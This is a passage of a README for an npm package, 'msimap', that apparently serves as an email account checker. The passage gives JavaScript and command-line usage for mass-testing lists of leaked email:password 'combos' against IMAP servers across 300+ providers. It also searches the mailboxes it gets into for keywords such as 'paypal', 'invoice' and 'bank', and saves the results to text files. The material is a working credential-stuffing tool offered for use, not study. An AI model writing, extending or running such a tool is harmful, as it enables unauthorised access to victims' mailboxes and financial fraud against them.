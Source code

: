 #### Mass Checking
```javascript
const MassChecker = require('@tigrilminnada/msimap/examples/mass-checker');

const checker = new MassChecker();
const combos = await checker.loadCombos('./combos.txt');

await checker.checkAllAccounts(combos, {
    concurrent: 3,
    delay: 2000,
    keyword: 'paypal' // optional
});

checker.saveResults(); // Save to TXT files
```

### Command Line Usage

```bash
# Single account test
npm run single-test

# Mass checking
npm run mass-check

# Mass checking with keyword search
npm run mass-check paypal
npm run mass-check invoice
npm run mass-check bank
```

## 📁 Project Structure

```
msimap/
├── lib/
│   ├── ImapChecker.js      # Core IMAP functionality
│   └── config.js           # Server configurations (300+ providers)
├── examples/
│   ├── combos.txt          # Email:password combinations
│   ├── mass-checker.js     # Mass checking class
│   ├── run-mass-checker.js # CLI runner script
│   ├── simple-mass-checker.js # Alternative runner
│   ├── single-test.js      # Single account test
│   └── results/            # Output directory
├── index.js                # Main entry point
├── example.js              # Usage examples
├── test.js                 # Test cases
└── package.json
```

## 🔧 API Reference
